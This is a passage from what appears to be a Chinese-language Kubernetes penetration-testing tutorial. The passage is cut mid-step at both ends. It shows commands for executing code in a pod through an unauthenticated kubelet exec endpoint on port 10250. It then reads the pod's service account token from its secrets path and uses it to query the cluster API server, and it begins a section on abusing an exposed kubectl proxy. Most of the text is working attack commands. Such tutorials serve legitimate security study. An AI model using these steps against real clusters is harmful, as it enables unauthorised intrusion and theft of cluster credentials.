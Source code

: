 执行如下语句查看命令执行结果

```plain
[root@localhost ~]# docker run -it --rm joshgubler/wscat -c "https://192.168.4.68:10250/cri/exec/zEKYcaZt" --no-check
```

[![](assets/1701826061-c558581c5eba734c4c3521ce28c120d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171431-e7d3cdb6-7316-1.png)  
Step 7：连接 K8s Master 地址  
此时我们是在 Node 的 Pod 里，在反弹的 Shell 里查看 Master 的内部 IP  
[![](assets/1701826061-6bde7a6d4b7b6266caa7d9221204dbdd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171442-eecdfcfe-7316-1.png)  
尝试连接 K8s Master 地址

```plain
[root@localhost ~]# TOKEN_VALUE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
[root@localhost ~]# curl -k --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt -H  "Authorization: Bearer $TOKEN_VALUE" https://10.0.0.1:443/api/v1/pods
```

### kube-proxy 配置错误

**基本介绍**  
Kubectl Proxy 代理程序既能作为 API Server 的反向代理，也能作为普通客户端访问 API Server 的代理，当开发人员使用 Kubectl proxy 将 API Server 外置时攻击者可以通过使用和 K8s API Server 未授权一样的漏洞实施攻击操作  
**漏洞利用**  
Step 1：通过执行以下命令启动我们自定义的
